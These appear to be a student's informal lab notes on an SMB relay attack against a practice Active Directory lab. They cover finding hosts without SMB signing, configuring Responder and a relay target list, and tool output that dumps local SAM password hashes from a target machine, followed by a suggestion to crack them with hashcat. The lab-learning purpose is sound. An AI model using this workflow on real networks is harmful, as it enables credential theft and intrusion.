

one way to find which dont have smb signing enabled is to run a nessus scan
and it will gve u the results
other way is to run a nmap scan
with a aspecific script
other way is go to github and find smb signing cecks and u ll find variety of scripts

nse stands for nmap scripting engine


server ka ip :192.168.50.143
fcastle IPv4 Address. . . . . . . . . . . : 192.168.50.131
pparker 192.168.50.132

thus by defualt smb signing is enabled and required for the servers(so we cant relay to this machine)
bt this is thhe ip address of fcastle so here we can still do a relay attack as its not required
so for now lets only attack peter parker hi sirf
save ts ip in targets.txt
in a perfect workd u would save all the ips to attacked here
so what we will do is relay our credentials from 131 wala machine to 132 ie peter parker wala machine
turn off smb and http in Responder.conf
 'now setting up relay
'now setting up relay


now point your punisher machine to your attakce rmachine

thus we got the thing needed
'''
main prb is every time u gotta enter the server ka ip address in machines ka and it keeps on chajnging
'''

[*] SMBD-Thread-3: Connection from MARVEL/FCASTLE@192.168.50.131 controlled, attacking target smb://192.168.50.132
[*] Authenticating against smb://192.168.50.132 as MARVEL/FCASTLE SUCCEED
[*] SMBD-Thread-3: Connection from MARVEL/FCASTLE@192.168.50.131 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb3a5aaa05b574ae934e70c8c98e96d3e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c81c8295ec4bfa3c9b90dcd6c64727e2:::
Peter Parker:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
[*] Done dumping SAM hashes for host: 192.168.50.132
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
these sam hashes that we got can be cracked using hascat